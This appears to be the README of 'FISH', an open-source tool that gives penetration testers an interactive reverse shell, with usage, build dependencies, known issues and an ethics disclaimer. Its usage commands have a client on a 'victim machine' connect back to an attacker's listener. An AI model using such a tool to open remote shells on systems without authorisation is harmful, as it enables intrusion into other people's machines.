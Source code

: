 # FISH - Fully Interactive SHell
Get a fully-ish interactive reverse shell when performing penetration tests. I got sick of using dumb reverse shells and hitting `ctrl+c`, especially on a windows vicitim machine.

## Usage
In the attacker machine, launch the server executable with a specified host and port to listen for incoming requests.
```shell
$ server <bind_address> <bind_port>
```

In the victim machine, launch the client executable (both unix and windows version are available). 
```shell
$ client <server_address> <server_port>
```

[![asciicast](https://asciinema.org/a/sdGg38QO0R850KnJjzYA6iv5J.svg)](https://asciinema.org/a/sdGg38QO0R850KnJjzYA6iv5J)

## Build
This tool should be compiled on a unix machine and it is dependant on the following packages.
Just run `make` after installing the dependencies.

### Dependencies
* C++ Compiler : `g++`
* C++ Cross Compiler (Win32) : `g++-mingw-w64-i686-win32`
* C++ Cross Compiler (i386) : `g++-multilib`
* Make build tools : `make`
* [Winpty](https://github.com/rprichard/winpty) and [Mongoose](https://github.com/cesanta/mongoose) (included in this repo)

## Known issues
* Windows child pty does not have the same privileges in some cases
* Windows 10 does not support Crtl+C on child processes (Maybe use conpty as an alternative)

## To be done
* Install Winpty and Mongoose as a dependencies (From Git from example)

# Disclaimer
It goes without saying that this tool is intended to be used for educational and/or ethical purposes. 